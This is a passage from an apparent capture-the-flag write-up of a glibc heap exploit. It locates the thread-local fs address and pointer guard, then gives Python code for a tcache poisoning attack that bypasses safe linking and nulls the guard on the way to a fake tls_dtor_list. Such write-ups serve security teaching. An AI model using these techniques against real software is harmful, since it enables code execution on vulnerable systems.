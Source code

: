 ![get-address-of-fs](images/get-address-of-fs.png)

So we know address for `fs` is `0x1555552e8740`. Just by adding `fs` by `0x30`, we get the address of guard. But `fs` address is lower than libc base address so we need to subtract libc base address with a value to get the address of `fs`. After a simple calculation, we get the offset for `fs` is:

```python
libc.sym['fs'] = -0x28c0
```

Now we just need to do a tcache attack to change the value of guard:

```python
alloc(0x18, b'3'*8)
delete(4)
delete(3)                          # Overlapping index 2
payload = flat(
    # Bypass safe linking
    ((heap + 0x7c0) >> 12) ^ (libc.sym['fs'] + 0x30)
    )
update(2, 0x18, payload)

alloc(0x18, b'3'*8)
alloc(0x18, b'\x00'*8 + b'4'*8)    # The 8-byte '4' is note for index
```

After we have set the guard to null, we will craft our fake `tls_dtor_list` now. But what is the address for `tls_dtor_list`? Stopping at the check of while loop, in assembly is the following code:

![get-address-of-tls-dtor-list.png](images/get-address-of-tls-dtor-list.png)

